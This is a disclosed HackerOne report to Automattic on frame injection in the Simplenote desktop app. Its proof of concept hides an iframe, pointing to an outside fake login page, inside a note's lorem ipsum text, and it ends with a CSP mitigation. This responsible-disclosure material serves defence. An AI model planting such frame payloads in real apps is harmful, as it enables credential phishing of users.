 # Crafted frame injection leading to form-based UI redressing.

## Report Details
- **Report ID**: 291683
- **URL**: https://hackerone.com/reports/291683
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-11-19T10:13:33.854Z
- **Disclosed**: 2017-12-31T17:04:02.871Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
# Summary

One can inject iframes into a note and create a login form that sends the user's details to a third-party server. Once again I will let the PoC do most of the explaining.

# PoC

Paste the following snippet into a Simplenote and then view it in the preview panel. I am using the latest stable build of the Simplenote app (v1.0.8) on Ubuntu 17.10.

```
Lorem Ipsum 

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor 
incididunt ut labore et dolore magna aliqua. Mattis vulputate enim nulla 
aliquet porttitor lacus luctus accumsan tortor. Lorem dolor sed viverra ipsum 
nunc aliquet bibendum enim. Nibh cras pulvinar mattis nunc sed blandit. Nunc 
scelerisque viverra mauris in aliquam sem. Diam sit amet nisl suscipit. Felis 
imperdiet proin fermentum leo vel. Ut sem viverra aliquet eget sit amet tellus 
cras adipiscing. Enim eu turpis egestas pretium aenean pharetra magna ac. 
Faucibus nisl tincidunt eget nullam non nisi est sit amet. In eu mi bibendum 
neque egestas. Ipsum consequat nisl vel pretium lectus quam. At auctor urna 
nunc id cursus metus aliquam eleifend. Accumsan lacus vel facilisis volutpat 
est velit egestas dui. Proin nibh nisl condimentum id venenatis a. In aliquam 
sem fringilla ut morbi tincidunt augue interdum velit. Maecenas accumsan lacus 
vel facilisis volutpat est. Pharetra pharetra massa massa ultricies. Cras 
pulvinar mattis nunc sed blandit libero volutpat. Et netus et malesuada fames 
ac turpis egestas sed. 

Accumsan lacus vel facilisis volutpat est. Ipsum dolor sit amet consectetur 
adipiscing elit ut aliquam. Gravida neque convallis a cras semper auctor neque 
vitae tempus. Dui accumsan sit amet nulla facilisi. Etiam dignissim diam quis 
enim. Posuere sollicitudin aliquam ultrices sagittis orci a scelerisque <iframe 
src="https://edoverflow.com/poc/simplenote-login.html" style="margin:0;" 
frameborder=0> purus. Proin nibh nisl condimentum id venenatis a condimentum 
vitae sapien. Netus et malesuada fames ac turpis egestas sed tempus urna. Urna 
nec tincidunt praesent semper feugiat nibh. Semper risus in hendrerit gravida 
rutrum quisque non tellus orci. Dictumst quisque sagittis purus sit. Quam id 
leo in vitae turpis. Fringilla est ullamcorper eget nulla facilisi etiam 
dignissim diam quis. Tellus at urna condimentum mattis pellentesque id nibh 
tortor id. Molestie ac feugiat sed lectus vestibulum mattis.
```

{F240841}

A more convincing PoC would probably consist of playing around CSS to make the app look like it has crashed and then prompt the user to login in again.

# Mitigation

Since Simplenote is built on Electron I would imagine it should be easy to implement a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and you should be able to set the `frame-src` directive to `none`. This can be achieved by adding the following meta element in the index.html file: 

```html
<meta http-equiv="Content-Security-Policy" content="frame-src 'none';">
```

On top of that, I would suggest looking into implementing a fully-fledged CSP to prevent similar attacks and to reduce the impact of XSS.

## Attachments
- Sign_in_to_Simplenote_001.png
